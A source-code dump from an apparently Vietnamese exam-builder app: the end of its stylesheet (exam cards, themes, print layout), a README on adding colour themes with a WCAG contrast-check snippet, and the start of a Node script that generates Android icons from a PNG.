.form-option-row { display: flex; align-items: center; gap: 0.5rem; }
.form-option-row input[type="text"] { flex: 1; }
.form-hidden { display: none; }

.form-add-row { display: flex; gap: 0.5rem; }
.form-add-row button { flex: 1; }

.form-question-list {
  list-style: none;
  margin: 0.5rem 0 0;
  padding: 0;
  display: flex;
  flex-direction: column;
  gap: 0.4rem;
  max-height: 320px;
  overflow-y: auto;
}
.form-question-item {
  display: flex;
  justify-content: space-between;
  align-items: center;
  gap: 0.5rem;
  background: var(--color-bg);
  border: 1px solid var(--color-border);
  border-radius: 6px;
  padding: 0.5rem 0.7rem;
  font-size: 0.82rem;
}
.form-question-item-info { display: flex; flex-direction: column; gap: 0.2rem; min-width: 0; }
.form-question-item-info strong { font-size: 0.78rem; color: var(--color-primary-dark); }
.form-question-item-info span { color: var(--color-text-muted); overflow-wrap: break-word; }
.form-question-item-actions { display: flex; gap: 0.35rem; flex-shrink: 0; }
.form-question-item-actions button { padding: 0.2rem 0.5rem; font-size: 0.75rem; }
.form-question-item-actions .edit-btn { color: var(--color-primary-dark); }
.form-question-item-actions .delete-btn { color: var(--color-danger); }

.error-message { color: var(--color-danger); font-size: 0.85rem; margin: 0; white-space: pre-wrap; }

.preview-panel { min-width: 0; padding-right: 0.25rem; }

.exam-container {
  background: var(--color-surface);
  border: 1px solid var(--color-border);
  border-radius: var(--radius);
  padding: 2rem;
  font-size: calc(1rem * var(--font-scale));
  min-height: 300px;
  overflow-x: hidden;
}

.empty-hint { color: var(--color-text-muted); text-align: center; margin: 3rem 0; }

.bg-panel {
  display: flex;
  align-items: center;
  gap: 0.75rem;
  flex-wrap: wrap;
  margin-bottom: 0.75rem;
}
.bg-panel select { flex: 1; min-width: 8rem; }
.bg-opacity-label { display: flex; align-items: center; gap: 0.4rem; font-size: 0.85rem; color: var(--color-text-muted); }

/* Lop nen PDF: an tren man hinh, chi hien khi in (xem @media print).
   Dat background-image/opacity qua inline style tu script.js. */
.exam-print-bg { display: none; }

.exam-title-block { text-align: center; margin-bottom: 1.5rem; }
.exam-title-block .school-header { font-weight: 600; text-transform: uppercase; margin: 0 0 0.25rem; }
.exam-title-block .exam-title { font-size: 1.4em; font-weight: 700; margin: 0.25rem 0; }
.exam-title-block .exam-sub { color: var(--color-text-muted); font-size: 0.95em; }

.question-block { margin-bottom: 2rem; }
.question-block-title {
  font-size: 1.1em;
  font-weight: 700;
  text-align: center;
  color: var(--color-primary-dark);
  border-bottom: 2px solid var(--color-primary);
  padding-bottom: 0.35rem;
  margin-bottom: 1rem;
}

.question-card {
  border: 1px solid var(--color-border);
  border-radius: var(--radius);
  padding: 1rem 1.1rem;
  margin-bottom: 1rem;
  background: var(--color-surface);
}

.question-head {
  display: flex;
  justify-content: space-between;
  align-items: flex-start;
  gap: 0.75rem;
  margin-bottom: 0.5rem;
}
.question-number { font-weight: 700; }
.question-content { flex: 1; min-width: 0; overflow-wrap: break-word; }
.question-content[contenteditable="true"] { outline: none; border-bottom: 1px dashed transparent; }
.question-content[contenteditable="true"]:focus { border-bottom-color: var(--color-primary); }

.badge {
  display: inline-block;
  font-size: 0.72em;
  font-weight: 600;
  padding: 0.15rem 0.5rem;
  border-radius: 999px;
  color: #fff;
  white-space: nowrap;
}
.badge-NB { background: var(--color-nb); }
.badge-TH { background: var(--color-th); }
.badge-VD { background: var(--color-vd); }
.badge-VDC { background: var(--color-vdc); }

.question-actions { display: flex; gap: 0.35rem; flex-shrink: 0; }
.question-actions button { padding: 0.2rem 0.45rem; font-size: 0.75rem; }
.delete-question-btn { color: var(--color-danger); }

.options-list { list-style: none; margin: 0.5rem 0; padding: 0; display: flex; flex-direction: column; gap: 0.35rem; }
.option-row { display: flex; align-items: center; gap: 0.5rem; padding: 0.3rem 0.5rem; border-radius: 6px; }
.option-row.is-correct { background: var(--color-correct-bg); border: 1px solid var(--color-success); }
.option-key { font-weight: 700; min-width: 1.2em; }
.option-text { flex: 1; min-width: 0; overflow-wrap: break-word; }
.option-text[contenteditable="true"] { outline: none; }

.fill-blank-answer, .true-false-answer {
  margin: 0.5rem 0;
  font-weight: 600;
  color: var(--color-success);
}

.explanation-box {
  margin-top: 0.6rem;
  padding: 0.55rem 0.7rem;
  background: var(--color-expl-bg, #fffbeb);
  border-left: 3px solid var(--color-expl-border, #f59e0b);
  border-radius: 4px;
  font-size: 0.9em;
  overflow-wrap: break-word;
}
.explanation-box[contenteditable="true"] { outline: none; }
.explanation-line { margin: 0.2rem 0; }
.explanation-line:first-child { margin-top: 0; }
.explanation-line:last-child { margin-bottom: 0; }

.question-card { transition: box-shadow 0.15s ease, border-color 0.15s ease; }
.question-number { cursor: pointer; }
.question-card.expanded {
  border-color: var(--color-primary);
  box-shadow: 0 4px 18px rgba(15, 23, 42, 0.14);
  padding: 1.3rem 1.4rem;
  font-size: 1.07em;
  scroll-margin-top: 1rem;
}
.question-card.expanded .explanation-box { font-size: 0.95em; padding: 0.7rem 0.85rem; }

.essay-draft-lines { margin-top: 0.75rem; }
.essay-draft-lines .draft-line {
  border-bottom: 1px dashed var(--color-line);
  height: 1.9em;
}

.draft-lines-control {
  display: flex;
  align-items: center;
  gap: 0.4rem;
  margin-top: 0.5rem;
  font-size: 0.82em;
  color: var(--color-text-muted);
}
.draft-lines-control input { width: 60px; padding: 0.2rem 0.4rem; }

.modal-overlay {
  display: none;
  position: fixed;
  inset: 0;
  background: var(--color-overlay);
  align-items: center;
  justify-content: center;
  z-index: 100;
}
.modal-overlay.open { display: flex; }
.modal {
  background: var(--color-surface);
  border-radius: var(--radius);
  padding: 1.25rem;
  width: min(90vw, 460px);
  display: flex;
  flex-direction: column;
  gap: 0.75rem;
}
.modal h3 { margin: 0; }
.modal-actions { display: flex; justify-content: flex-end; gap: 0.5rem; }

.exam-container.student-mode .teacher-only { display: none !important; }

.true-false-answer-print { display: none; }

/* Cong thuc toan render bang KaTeX (xem renderMathInline trong script.js).
   Cac renderer "can/phan so gia bang CSS" (.radical / .frac) da bo hoan
   toan - moi cau truc 2 chieu deu di qua $...$ + KaTeX. */
.katex-display { margin: 0.4em 0; overflow-x: auto; overflow-y: hidden; }

/* ---------- Multi-code panel (Task 3) ---------- */
.multi-code-panel {
  border: 1px solid var(--color-border);
  border-radius: var(--radius);
  overflow: hidden;
  /* La con duy nhat trong .input-panel (flex column) co overflow != visible,
     nen "automatic minimum size" cua no la 0 - neu khong khoa flex-shrink:0,
     flexbox se co het panel nay xuong gan 0px de "vua" trong max-height cua
     input-panel thay vi de input-panel tu cuon (dung nhu du dinh). */
  flex-shrink: 0;
}
.collapse-toggle {
  width: 100%;
  display: flex;
  align-items: center;
  justify-content: space-between;
  background: var(--color-primary-soft);
  border: none;
  border-radius: 0;
  padding: 0.6rem 0.8rem;
  font-weight: 600;
  font-size: 0.85rem;
  color: var(--color-primary-dark);
  transition: background 0.15s;
}
.collapse-toggle:hover { background: var(--color-primary-soft-br); }
.collapse-toggle .chevron { transition: transform 0.2s; }
.collapse-toggle[aria-expanded="true"] .chevron { transform: rotate(180deg); }
.collapse-body {
  display: none;
  flex-direction: column;
  gap: 0.6rem;
  padding: 0.8rem;
  border-top: 1px solid var(--color-border);
  animation: fadeIn 0.2s ease;
}
.collapse-body.open { display: flex; }

.field-label {
  flex: 1;
  display: flex;
  flex-direction: column;
  gap: 0.25rem;
  font-size: 0.8rem;
  color: var(--color-text-muted);
}
.field-label input { width: 100%; }

#multiCodeSummary { color: var(--color-primary-dark); font-weight: 500; }

/* ---------- Code tabs (nhieu ma de) ---------- */
.code-tabs {
  display: flex;
  flex-wrap: wrap;
  gap: 0.4rem;
  margin-bottom: 0.75rem;
}
.code-tabs:empty { display: none; }
.code-tab-btn {
  padding: 0.35rem 0.9rem;
  border-radius: 999px;
  font-size: 0.82rem;
  font-weight: 600;
  background: var(--color-surface);
}
.code-tab-btn.active { background: var(--color-primary); color: var(--color-on-primary); border-color: var(--color-primary); }

.exam-container-hidden { display: none !important; }
.exam-version { display: none; }
.exam-version.active { display: block; }
.exam-version-code-label {
  text-align: right;
  font-weight: 700;
  font-size: 0.85em;
  color: var(--color-primary-dark);
  margin-bottom: 0.5rem;
}

/* ---------- Prompt reference section (Task 2) ---------- */
.prompt-reference {
  margin: 0 1.5rem 1.5rem;
  background: var(--color-surface);
  border: 1px solid var(--color-border);
  border-radius: var(--radius);
  padding: 1.25rem 1.5rem;
  display: flex;
  flex-direction: column;
  gap: 1rem;
}
.prompt-reference-title { font-size: 1.05rem; margin: 0; color: var(--color-primary-dark); }

.question-type-legend {
  display: grid;
  grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
  gap: 0.75rem;
}
.legend-badge {
  display: flex;
  align-items: center;
  gap: 0.65rem;
  padding: 0.65rem 0.75rem;
  border-radius: var(--radius);
  border: 1px solid var(--color-border);
  background: var(--color-surface-2);
  transition: transform 0.15s, box-shadow 0.15s;
}
.legend-badge:hover { transform: translateY(-1px); box-shadow: 0 2px 8px rgba(15, 23, 42, 0.08); }
.legend-badge strong { display: block; font-size: 0.85rem; }
.legend-badge span { display: block; font-size: 0.75rem; color: var(--color-text-muted); }
.legend-icon {
  flex-shrink: 0;
  display: inline-flex;
  align-items: center;
  justify-content: center;
  min-width: 2.4rem;
  height: 2.4rem;
  padding: 0 0.3rem;
  border-radius: 8px;
  font-size: 0.75rem;
  font-weight: 700;
  color: #fff;
}
.legend-mcq .legend-icon { background: var(--color-th); }
.legend-tf .legend-icon { background: var(--color-success); }
.legend-fill .legend-icon { background: var(--color-vd); }
.legend-essay .legend-icon { background: var(--color-vdc); }

.prompt-platform-tabs {
  display: flex;
  flex-wrap: wrap;
  gap: 0.4rem;
}
.platform-tab-btn {
  padding: 0.35rem 0.9rem;
  border-radius: 999px;
  font-size: 0.82rem;
  font-weight: 600;
  background: var(--color-surface);
}
.platform-tab-btn.active { background: var(--color-primary); color: var(--color-on-primary); border-color: var(--color-primary); }

.prompt-accordion, .prompt-example-accordion {
  border: 1px solid var(--color-border);
  border-radius: 8px;
  padding: 0.6rem 0.8rem;
}
.prompt-accordion summary, .prompt-example-accordion summary {
  cursor: pointer;
  font-weight: 600;
  font-size: 0.88rem;
  color: var(--color-primary-dark);
}
.prompt-accordion-body { margin-top: 0.75rem; display: flex; flex-direction: column; gap: 0.6rem; }
.prompt-example-accordion { margin-top: 0.8rem; }
.prompt-example-accordion .prompt-toolbar,
.prompt-example-accordion .prompt-text { margin-top: 0.6rem; }

.prompt-toolbar {
  display: flex;
  align-items: center;
  justify-content: space-between;
  gap: 0.75rem;
  flex-wrap: wrap;
}
.prompt-text {
  white-space: pre-wrap;
  word-break: break-word;
  background: var(--color-code-bg);
  color: var(--color-code-text);
  border-radius: 8px;
  padding: 0.9rem 1rem;
  font-size: 0.8rem;
  line-height: 1.5;
  max-height: 360px;
  overflow-y: auto;
  margin: 0;
}

.copy-toast {
  position: fixed;
  bottom: 1.5rem;
  left: 50%;
  transform: translateX(-50%) translateY(20px);
  background: var(--color-code-bg);
  color: #fff;
  padding: 0.6rem 1.1rem;
  border-radius: 999px;
  font-size: 0.85rem;
  opacity: 0;
  pointer-events: none;
  transition: opacity 0.25s ease, transform 0.25s ease;
  z-index: 200;
}
.copy-toast.show { opacity: 1; transform: translateX(-50%) translateY(0); }

@keyframes fadeIn { from { opacity: 0; } to { opacity: 1; } }

/* ---------- Sinh de tu dong bang LLM (module cong them) ---------- */
.auto-section-checkboxes { display: flex; flex-direction: column; gap: 0.3rem; }
.section-checkbox-label { display: flex; align-items: center; gap: 0.4rem; font-size: 0.85rem; }
.section-checkbox-label input { width: auto; }

.auto-spec-table { width: 100%; border-collapse: collapse; font-size: 0.82rem; }
.auto-spec-table th, .auto-spec-table td { padding: 0.25rem; text-align: center; }
.auto-spec-table th { color: var(--color-text-muted); font-weight: 500; }
.auto-spec-table td input { padding: 0.3rem; text-align: center; }

.doc-sections-box {
  display: flex;
  flex-direction: column;
  gap: 0.4rem;
  border: 1px solid var(--color-border);
  border-radius: 8px;
  padding: 0.6rem;
  margin-top: 0.6rem;
}

.modal-wide { width: min(92vw, 640px); max-height: 85vh; overflow-y: auto; }
.modal-wide h4 { margin: 0.5rem 0 0; font-size: 0.9rem; color: var(--color-primary-dark); }

/* ---------- Cài đặt > Giao diện ---------- */
.appearance-settings { display: flex; flex-direction: column; gap: 0.9rem; }
.appearance-row { display: flex; align-items: center; gap: 0.75rem; flex-wrap: wrap; }
.appearance-label { font-size: 0.85rem; font-weight: 600; }

.theme-grid {
  display: grid;
  grid-template-columns: repeat(auto-fill, minmax(96px, 1fr));
  gap: 0.6rem;
}
.theme-card {
  display: flex;
  flex-direction: column;
  align-items: stretch;
  gap: 0.3rem;
  padding: 0.35rem;
  border: 2px solid var(--color-border);
  border-radius: 10px;
  background: var(--color-surface);
  transition: transform 0.12s ease, border-color 0.12s ease, box-shadow 0.12s ease;
}
.theme-card:hover { transform: translateY(-2px); border-color: var(--color-primary-soft-br); }
.theme-card.active {
  border-color: var(--color-primary);
  box-shadow: 0 0 0 3px var(--color-primary-soft);
}
.theme-card-name { font-size: 0.72rem; font-weight: 600; text-align: center; color: var(--color-text); }
.theme-card-preview {
  position: relative;
  height: 40px;
  border-radius: 6px;
  overflow: hidden;
  border: 1px solid rgba(0, 0, 0, 0.08);
}
.theme-card-preview .tcp-bar {
  position: absolute; left: 0; right: 0; top: 0; height: 12px;
}
.theme-card-preview .tcp-dot {
  position: absolute; right: 6px; bottom: 6px; width: 12px; height: 12px; border-radius: 50%;
}
/* Preview mini của từng theme (nền + thanh tiêu đề + chấm nhấn) */
.theme-card-preview[data-p="cold"]     { background: #e9f2fb; } .theme-card-preview[data-p="cold"] .tcp-bar { background: #1976d2; } .theme-card-preview[data-p="cold"] .tcp-dot { background: #0d47a1; }
.theme-card-preview[data-p="ocean"]    { background: #f2efe7; } .theme-card-preview[data-p="ocean"] .tcp-bar { background: #33689f; } .theme-card-preview[data-p="ocean"] .tcp-dot { background: #66a3bf; }
.theme-card-preview[data-p="summer"]   { background: #fdf3e2; } .theme-card-preview[data-p="summer"] .tcp-bar { background: #a8562b; } .theme-card-preview[data-p="summer"] .tcp-dot { background: #6b7a45; }
.theme-card-preview[data-p="fall"]     { background: #fcf3e6; } .theme-card-preview[data-p="fall"] .tcp-bar { background: #af5f2c; } .theme-card-preview[data-p="fall"] .tcp-dot { background: #3f7c8c; }
.theme-card-preview[data-p="winter"]   { background: #f0f0ec; } .theme-card-preview[data-p="winter"] .tcp-bar { background: #6b7259; } .theme-card-preview[data-p="winter"] .tcp-dot { background: #a3a396; }
.theme-card-preview[data-p="meadow"]   { background: #f3f8e9; } .theme-card-preview[data-p="meadow"] .tcp-bar { background: #3f7d1c; } .theme-card-preview[data-p="meadow"] .tcp-dot { background: #8eca3c; }
.theme-card-preview[data-p="blossom"]  { background: #fbf5e6; } .theme-card-preview[data-p="blossom"] .tcp-bar { background: #7a5c8f; } .theme-card-preview[data-p="blossom"] .tcp-dot { background: #b0cde6; }
.theme-card-preview[data-p="sorbet"]   { background: #fef2ee; } .theme-card-preview[data-p="sorbet"] .tcp-bar { background: #c0453f; } .theme-card-preview[data-p="sorbet"] .tcp-dot { background: #bbf1d2; }
.theme-card-preview[data-p="daylight"] { background: #fefaee; } .theme-card-preview[data-p="daylight"] .tcp-bar { background: #3f5fc9; } .theme-card-preview[data-p="daylight"] .tcp-dot { background: #aac4f5; }
.theme-card-preview[data-p="midnight"] { background: #0a1230; } .theme-card-preview[data-p="midnight"] .tcp-bar { background: #7f9cff; } .theme-card-preview[data-p="midnight"] .tcp-dot { background: #abd2fa; }
.theme-card-preview[data-p="pine"]     { background: #0a2226; } .theme-card-preview[data-p="pine"] .tcp-bar { background: #5cc596; } .theme-card-preview[data-p="pine"] .tcp-dot { background: #8bbb92; }
.theme-card-preview[data-p="grape"]    { background: #efe7fb; } .theme-card-preview[data-p="grape"] .tcp-bar { background: #6a3ea8; } .theme-card-preview[data-p="grape"] .tcp-dot { background: #9564dd; }
.theme-card-preview[data-p="plum"]     { background: #f8e2ec; } .theme-card-preview[data-p="plum"] .tcp-bar { background: #9c3568; } .theme-card-preview[data-p="plum"] .tcp-dot { background: #bd5579; }
.theme-card-preview[data-p="mocha"]    { background: #efe7df; } .theme-card-preview[data-p="mocha"] .tcp-bar { background: #7c5741; } .theme-card-preview[data-p="mocha"] .tcp-dot { background: #ab886d; }
.theme-card-preview[data-p="quartz"]   { background: #f9e4ec; } .theme-card-preview[data-p="quartz"] .tcp-bar { background: #9c5a7c; } .theme-card-preview[data-p="quartz"] .tcp-dot { background: #c5b3d3; }
.theme-card-preview[data-p="peach"]    { background: #fbe4dc; } .theme-card-preview[data-p="peach"] .tcp-bar { background: #b45642; } .theme-card-preview[data-p="peach"] .tcp-dot { background: #eaa07f; }
.theme-card-preview[data-p="rose"]     { background: #fbe1da; } .theme-card-preview[data-p="rose"] .tcp-bar { background: #bb4a62; } .theme-card-preview[data-p="rose"] .tcp-dot { background: #febbcc; }
.theme-card-preview[data-p="honey"]    { background: #f6e9cf; } .theme-card-preview[data-p="honey"] .tcp-bar { background: #9e6b30; } .theme-card-preview[data-p="honey"] .tcp-dot { background: #d8ae7e; }

.font-size-group { display: flex; gap: 0.3rem; flex-wrap: wrap; }
.font-size-group button { padding: 0.3rem 0.7rem; font-size: 0.8rem; }
.font-size-group button.active {
  background: var(--color-primary);
  color: var(--color-on-primary);
  border-color: var(--color-primary);
}

.settings-provider-rows { display: flex; flex-direction: column; gap: 0.5rem; }
.settings-provider-row { display: flex; align-items: center; gap: 0.5rem; }
.settings-provider-row .provider-label { width: 100px; flex-shrink: 0; font-size: 0.85rem; font-weight: 600; }
.settings-provider-row .provider-key-input { flex: 1; }
.settings-provider-row .provider-status { width: 110px; flex-shrink: 0; text-align: right; }

/* Kho de + dong bo Gist (modal Lich su) */
.library-item-empty { color: var(--color-text-muted); }

.sync-details {
  border: 1px solid var(--color-border);
  border-radius: 8px;
  margin-top: 0.5rem;
}
.sync-details > summary {
  cursor: pointer;
  padding: 0.6rem 0.7rem;
  font-weight: 600;
  font-size: 0.9rem;
  color: var(--color-primary-dark);
  list-style-position: inside;
}
.sync-details[open] > summary { border-bottom: 1px solid var(--color-border); }
.sync-details-body { padding: 0.7rem; }

.sync-status-rows { display: flex; flex-direction: column; gap: 0.3rem; margin: 0.3rem 0 0.2rem; }
.sync-status-row { display: flex; align-items: baseline; gap: 0.5rem; font-size: 0.85rem; }
.sync-status-key { width: 92px; flex-shrink: 0; color: var(--color-text-muted); }
.sync-state { font-weight: 600; word-break: break-all; }
.sync-state.is-set { color: var(--color-primary-dark); }

.sync-subpanel {
  border: 1px solid var(--color-border);
  border-radius: 8px;
  padding: 0.6rem;
  margin-top: 0.6rem;
  flex-direction: column;
  gap: 0.4rem;
  background: var(--color-bg, #f8fafc);
}
/* Panel chi hien khi bo class form-hidden (dat sau .form-hidden nen can
   selector 2 class de thang do uu tien nguon). */
.sync-subpanel:not(.form-hidden) { display: flex; }
.sync-subpanel.form-hidden { display: none; }
.sync-subpanel .field-label { width: 100%; }
.sync-subpanel input { width: 100%; }

.sync-actions { display: flex; gap: 0.5rem; flex-wrap: wrap; margin-top: 0.6rem; }
#syncStatus { min-height: 1.1em; }
#syncStatus.is-error { color: var(--color-danger); }
#syncStatus.is-ok { color: var(--color-primary-dark); }

@media print {
  /* In LUÔN dùng tông sáng + đen trắng, kể cả theme Midnight/Pine trên màn hình. */
  :root, :root[data-theme] {
    --color-bg: #fff;
    --color-surface: #fff;
    --color-surface-2: #fff;
    --color-text: #000;
    --color-text-muted: #333;
    --color-border: #ccc;
    --color-line: #94a3b8;
    --color-primary: #111;
    --color-primary-dark: #000;
    --color-on-primary: #fff;
    --color-correct-bg: transparent;
    --color-expl-bg: #fff;
    --color-expl-border: #888;
    color-scheme: light;
  }
  body { background: #fff; color: #000; }
  .no-print { display: none !important; }
  .app-main { display: block; padding: 0; margin: 0; }
  .input-panel { display: none !important; }
  .preview-panel {
    width: 100%;
    position: static;
    max-height: none;
    overflow: visible;
    padding-right: 0;
  }

  .exam-container {
    border: none;
    box-shadow: none;
    border-radius: 0;
    /* Truoc day padding:0 vi le trang do @page margin dam nhiem. Doi sang
       @page margin:0 + padding o day de nen PDF (.exam-print-bg) co the
       phu kin ca trang A4 (full-bleed) ma khong bi @page margin che mat. */
    padding: 2cm 1.5cm;
    font-size: 12pt;
    max-width: 100%;
  }

  /* Nen PDF: phu kin toan bo trang A4, nam duoi noi dung. Anh nen +
     opacity duoc gan qua inline style tu script.js (state.background). */
  .exam-print-bg.enabled {
    display: block;
    position: fixed;
    top: 0;
    left: 0;
    width: 210mm;
    height: 297mm;
    background-repeat: no-repeat;
    background-position: center;
    background-size: cover;
    z-index: 0;
    -webkit-print-color-adjust: exact;
    print-color-adjust: exact;
  }
  .exam-container, .code-tabs { position: relative; z-index: 1; }

  .question-card {
    break-inside: avoid;
    border: none;
    border-bottom: 1px solid #ddd;
    padding: 0.5rem 0;
    margin-bottom: 0;
  }

  .question-actions,
  .delete-question-btn,
  .draft-lines-control,
  .option-row button,
  select.true-false-answer {
    display: none !important;
  }

  .true-false-answer-print { display: inline !important; }

  .option-row.is-correct {
    background: transparent;
    border: none;
    font-weight: 700;
  }
  .option-row.is-correct .option-key::after { content: " ✓"; }

  [contenteditable] { outline: none !important; }

  /* Nhieu ma de: khi in, hien tat ca (khong chi ma dang active tren man
     hinh) va ngat trang giua tung ma de. */
  .exam-version { display: block !important; page-break-after: always; }
  .exam-version:last-child { page-break-after: auto; }
  .exam-version-code-label { display: block !important; }

  @page { size: A4; margin: 0; }
}

```

### FILE: resources/image/README.md

````markdown
# Chủ đề màu (theme) — nguồn & cách thêm

Thư mục này chứa các bảng màu tham khảo (ảnh PNG kiểu Color Hunt). Mỗi ảnh 4 màu;
hex đọc thẳng từ chunk `PLTE` của PNG.

Hiện có **11 chủ đề**, `id` giống nhau ở cả web lẫn Android:

| id | Tên hiển thị | Nền | Từ ảnh |
|---|---|---|---|
| `cold` | Xanh lạnh | sáng | `ColdColor.png` (= `Color Hunt … e3f2fd…`) |
| `ocean` | Biển | sáng | `Color Hunt … 3368a0…` |
| `meadow` | Đồng cỏ | sáng | `Color Hunt … 499a13…` |
| `blossom` | Oải hương | sáng | `Color Hunt … fdf4d2…` |
| `sorbet` | Kem trái cây | sáng | `Color Hunt … ff9d9d…` |
| `daylight` | Ban ngày | sáng | `Color Hunt … fff2c6…` |
| `summer` | Hè | sáng | `SummerColor.png` |
| `fall` | Thu | sáng | `FallColor.png` |
| `winter` | Đông | sáng | `WinterColor.png` |
| `midnight` | Xanh đêm | **tối** | `DarkColdColor.png` |
| `pine` | Rừng đêm | **tối** | `DarkWinterColor.png` |

---

## Thêm 1 chủ đề mới — bạn tự làm được, không cần AI

Tự thêm được nếu quen sửa CSS + Kotlin cơ bản. Chỉ là chép 1 khối rồi đổi mã màu.

### A. Web (2 chỗ)

**1. `frontend/style.css`** — thêm 1 khối ngay trước `:root[data-theme="midnight"]`
(chép từ khối `ocean` rồi đổi hết mã màu; đủ **20 biến**, chủ đề tối thì thêm dòng
`color-scheme: dark;`):

```css
:root[data-theme="sunset"] {
  --color-primary: #d1495b;        /* màu nhấn (nút, link) — chữ trắng phải đọc được */
  --color-primary-dark: #a03547;   /* đậm hơn primary một bậc */
  --color-primary-soft: #fbe4e7;   /* nền nút phụ (rất nhạt) */
  --color-primary-soft-br: #f0b8c0; /* viền nút phụ */
  --color-on-primary: #ffffff;     /* chữ TRÊN màu primary (chủ đề tối: dùng màu nền tối) */
  --color-bg: #fdf1f0;             /* nền trang */
  --color-surface: #ffffff;        /* nền thẻ / modal / ô nhập */
  --color-surface-2: #f8e7e5;      /* nền phụ nhạt hơn surface */
  --color-border: #edd3d1;
  --color-text: #3a1f22;           /* chữ chính — tương phản >= 4.5:1 với bg và surface */
  --color-text-muted: #7a5257;     /* chữ phụ — vẫn phải >= 4.5:1 với bg */
  --color-line: #c99ea2;           /* gạch nháp tự luận + thanh cuộn */
  --color-switch-off: #e8c4c1;
  --color-overlay: rgba(58, 31, 34, 0.45);
  --color-correct-bg: #e6f0e5;     /* nền lựa chọn đúng */
  --color-expl-bg: #fdeede;        /* nền ô lời giải */
  --color-expl-border: #c98a3a;
  --color-code-bg: #35201f;        /* nền khối "Prompt mẫu" */
  --color-code-text: #f2e2e0;
  --color-th: #d1495b;             /* màu badge "Thông hiểu" — chữ trắng phải đọc được */
}
```

Và 1 dòng preview (gần cuối file, cạnh các dòng `.theme-card-preview[data-p=...]`):

```css
.theme-card-preview[data-p="sunset"] { background: #fdf1f0; }
.theme-card-preview[data-p="sunset"] .tcp-bar { background: #d1495b; }
.theme-card-preview[data-p="sunset"] .tcp-dot { background: #edaeb4; }
```

**2. `frontend/index.html`** — thêm 1 nút trong `<div class="theme-grid" id="themeGrid">`:

```html
<button type="button" class="theme-card" data-theme="sunset">
  <span class="theme-card-preview" data-p="sunset"><span class="tcp-bar"></span><span class="tcp-dot"></span></span>
  <span class="theme-card-name">Hoàng hôn</span>
</button>
```

Xong. `script.js` tự lấy danh sách theme từ các nút này, không phải sửa. Tải lại trang.

### B. Android (1 chỗ + build lại)

`Exam builder for adr/app/src/main/java/com/exambuilder/android/ui/theme/Palettes.kt` —
thêm 1 phần tử vào list `APP_THEMES` (chép từ `ocean`, dùng `lightColorScheme` cho nền
sáng / `darkColorScheme` cho nền tối):

```kotlin
AppTheme(
    id = "sunset", label = "Hoàng hôn", dark = false,
    previewBg = c(0xFDF1F0), previewBar = c(0xD1495B), previewDot = c(0xEDAEB4),
    scheme = lightColorScheme(
        primary = c(0xD1495B), onPrimary = Color.White,
        primaryContainer = c(0xFBE4E7), onPrimaryContainer = c(0xA03547),
        secondary = c(0x4A7194), onSecondary = Color.White,
        background = c(0xFDF1F0), onBackground = c(0x3A1F22),
        surface = c(0xFFFFFF), onSurface = c(0x3A1F22),
        surfaceVariant = c(0xF8E7E5), onSurfaceVariant = c(0x7A5257),
        outline = c(0xC99EA2), outlineVariant = c(0xEDD3D1), error = c(0xB3261E)
    )
),
```

`SettingsScreen` render lưới theo `APP_THEMES` nên tự hiện; `AppSettingsStore` tự bỏ
qua id lạ. Rồi build lại APK (xem `../../Exam builder for adr/README.md` mục "Bản release").

### C. Kiểm tra tương phản (WCAG AA) — dán vào `node`

```js
const lum = h => { h = h.replace('#',''); const c = h.match(/../g).map(x => parseInt(x,16)/255)
  .map(v => v <= 0.03928 ? v/12.92 : Math.pow((v+0.055)/1.055, 2.4));
  return 0.2126*c[0] + 0.7152*c[1] + 0.0722*c[2]; };
const cr = (a,b) => { const l1 = Math.max(lum(a),lum(b)), l2 = Math.min(lum(a),lum(b)); return (l1+0.05)/(l2+0.05); };
// đổi các hex bên dưới cho khớp theme của bạn:
const bg='#fdf1f0', surface='#ffffff', text='#3a1f22', muted='#7a5257', primary='#d1495b', onP='#ffffff', th='#d1495b';
console.log('text/bg     ', cr(text,bg).toFixed(2),  cr(text,bg)>=4.5?'OK':'FAIL');
console.log('muted/bg    ', cr(muted,bg).toFixed(2), cr(muted,bg)>=4.5?'OK':'FAIL');
console.log('text/surface', cr(text,surface).toFixed(2), cr(text,surface)>=4.5?'OK':'FAIL');
console.log('white/primary', cr(onP,primary).toFixed(2), cr(onP,primary)>=4.5?'OK':'FAIL');
console.log('white/th    ', cr('#ffffff',th).toFixed(2), cr('#ffffff',th)>=4.5?'OK':'FAIL');
```

Tất cả phải `OK` (>= 4.5). Nếu FAIL: nền quá đậm → làm nhạt hơn; hoặc chữ/primary
quá nhạt → làm đậm hơn.

---

## Nên dùng AI hay tự làm?

- **Tự làm:** hoàn toàn được — chỉ là chép khối + đổi hex + chạy đoạn kiểm tra ở mục C,
  rồi build lại APK cho Android. Không cần công cụ build gì thêm cho web.
- **Nhờ AI:** nhanh hơn ở khâu chọn/tinh chỉnh hex cho vừa tông + đạt tương phản, và
  khâu build + ký lại APK Android. Không bắt buộc.

````

### FILE: resources/image/gen-android-icons.js

```javascript
'use strict';
// Sinh bo icon Android (adaptive + legacy) tu resources/image/icon.png.
// icon.png la anh grayscale 640x640, net ve mau den (~0) tren nen xam (~245).
// -> tach nen, doi net ve thanh TRANG, dat tren nen xanh thuong hieu #2563EB.
//
// Chay:  node resources/image/gen-android-icons.js
// (khong can tham so - mac dinh lay goc repo la thu muc cha cua file nay 2 cap).
// Chi dung Node core (zlib) - khong can cai them thu vien.

const zlib = require('zlib');
const fs = require('fs');
const path = require('path');

const ROOT = process.argv[2] || path.resolve(__dirname, '..', '..');
const SRC = path.join(ROOT, 'resources', 'image', 'icon.png');
const RES = path.join(ROOT, 'Exam builder for adr', 'app', 'src', 'main', 'res');

const BRAND = [0x25, 0x63, 0xEB]; // #2563EB

// ---------- decode grayscale PNG ----------
function decodeGray(buf) {
  let o = 8;
  const idat = [];
  let W = 0, H = 0;
  while (o < buf.length) {
    const len = buf.readUInt32BE(o);
    const type = buf.toString('ascii', o + 4, o + 8);
    const start = o + 8;
    if (type === 'IHDR') {
      W = buf.readUInt32BE(start);
      H = buf.readUInt32BE(start + 4);
      if (buf[start + 8] !== 8 || buf[start + 9] !== 0) throw new Error('can grayscale 8-bit');
    } else if (type === 'IDAT') {
      idat.push(buf.slice(start, start + len));
    }
    o += 12 + len;
  }
  const raw = zlib.inflateSync(Buffer.concat(idat));
  const img = Buffer.alloc(W * H);
  let p = 0;
  for (let y = 0; y < H; y++) {
    const ft = raw[p++];
    for (let x = 0; x < W; x++) {
      const cur = raw[p++];
      const a = x >= 1 ? img[y * W + x - 1] : 0;
      const b = y > 0 ? img[(y - 1) * W + x] : 0;
